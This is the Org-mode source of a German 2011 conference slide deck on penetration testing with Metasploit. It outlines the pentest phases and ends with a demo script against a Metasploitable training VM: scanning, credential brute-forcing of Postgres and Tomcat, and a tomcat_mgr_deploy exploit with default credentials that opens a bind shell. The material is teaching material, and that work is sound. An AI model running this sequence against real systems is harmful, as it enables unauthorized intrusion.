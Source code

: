 #+STARTUP: beamer
#+LaTeX_CLASS: beamer
#+MACRO: BEAMERMODE presentation
#+MACRO: BEAMERTHEME Berlin
#+MACRO: BEAMERCOLORTHEME beetle
#+MACRO: BEAMERINSTITUTE Linuxwochenende 2011
#+TITLE: Penetrationstests mit Metasploit
#+AUTHOR: Michael Kohl

* Einleitung
** Über mich
*** Früher: Linux/Unix Admin / Systems Engineer
*** Jetzt: Rails-Entwickler, DevOps
*** Ab Oktober: Penetration Tester
*** Gentoo Entwickler, Metalab, RubyLearning, etc.
** Warum Penetration Testing?
*** Schwachstellen identifizieren
*** Aufdecken von Fehlern aus falscher Bedienung
*** Erhöhung der Sicherheit auf technischer und organisatorischer Ebene
*** externe Validierung der Sicherheit
* Penetration Testing
** Pre-Engagement
*** Zieldefinition (z.B. compliance)
*** Abklären der Rahmenbedingungen (z.B. overt/covert)
*** Limitierungen (z.B. nur Kernarbeitszeit, Wochenenden)
*** Umfang (Netzwerk, Apps, WLAN, physische Tests, Social Engineering)
*** Kommunikationswege definieren
** Intelligence Gathering
*** Versuch möglichst viel über Ziel herauszufinden
*** Social Media
*** Footprinting
*** Portscans
*** Firewalls etc?
*** physische Locations
** Threat Modeling
*** benutzt Informationen aus dem vorherigen Schritt
*** Versuch vielversprechendsten Angriffsvektor zu finden
*** in die Rolle des Angreifers versetzen
**** Analyse von Assets
**** Analyse der Geschäftsprozesse
**** Unternehmenstruktur
**** Attacken auf ähnliche Unternehmen
** Vulnerability Analysis
*** Port- und Service-Scans
*** Banner Grabbing
*** SQL Injection Scanner
*** Traffic Monitoring
** Exploitation
*** "spektakulärste" Phase
*** nach Indentifikation der vielversprechenden Vektoren
*** Exploits für bekannte Versionen
*** Buffer Overflows, SQL Injections, Passwort Bruteforce etc.
** Post Exploitation
*** nach dem Kompromittieren eines oder mehrerer Systeme
*** Identifikation wichtiger Infrastruktur
*** Identifikation wichtigster Daten
*** Schwachstellen mit grösstem Business Impact
*** Aufräumen
** Reporting
*** wichtigster Teil
*** was?
*** wie?
*** wie reparieren?
*** generelle Security, nicht nur technische Schwachstellen
* Metasploit
** Metasploit Framework
*** Penetration Testing Framework in Ruby
*** Scanner/Fuzzer
*** Payloads
*** Exploits
*** Post-Exploitation Tools (Meterpreter)
*** Libraries zur Entwicklung eigener Tools
* Demo
** Demo
*** Metasploitable VM
*** prinzipieller Ablauf, kein vollständiger Pen Test
*** Demo                                                           :noexport:
msf > db_connect tupalero@metasploitable

sudo nmap -sT -Pn 10.20.30.164 -oX metasploitable.xml

msf > db_import metasploitable.xml
[*] Importing 'Nmap XML' data
[*] Importing host 10.20.30.164
[*] Successfully imported /Users/michi/metasploitable.xml

msf > db_services

msf > setg RHOSTS 10.20.30.164
RHOSTS => 10.20.30.164

msf > use scanner/ftp/anonymous
msf auxiliary(anonymous) > show options
msf auxiliary(anonymous) > run

msf > search postgres

msf auxiliary(anonymous) > use scanner/postgres/postgres_login
msf auxiliary(postgres_login) > show options

msf auxiliary(postgres_login) > run
BAZINGA!

psql -h 192.168.178.30 -U postgres
\\du

msf > use scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set RPORT 8180
msf auxiliary(tomcat_mgr_login) > run
BAZINGA!

msf exploit(tomcat_mgr_deploy) > set USERNAME tomcat
USERNAME => tomcat
msf exploit(tomcat_mgr_deploy) > set PASSWORD tomcat
PASSWORD => tomcat
msf exploit(tomcat_mgr_deploy) > set RHOST 10.20.30.164
RHOST => 192.168.178.30
msf exploit(tomcat_mgr_deploy) > set PAYLOAD linux/x86/shell_bind_tcp
msf exploit(tomcat_mgr_deploy) > exploit -j
msf exploit(tomcat_mgr_deploy) > sessions -l
msf exploit(tomcat_mgr_deploy) > sessions -i n

* Ressourcen
** Ressourcen
*** http://de.wikipedia.org/wiki/Penetrationstest_(Informatik)
*** http://www.pentest-standard.org/index.php/Main_Page
*** http://www.metasploit.com/
*** http://www.offensive-security.com/metasploit-unleashed/
*** http://nostarch.com/metasploit
*** http://www.offensive-security.com/metasploit-unleashed/Metasploitable
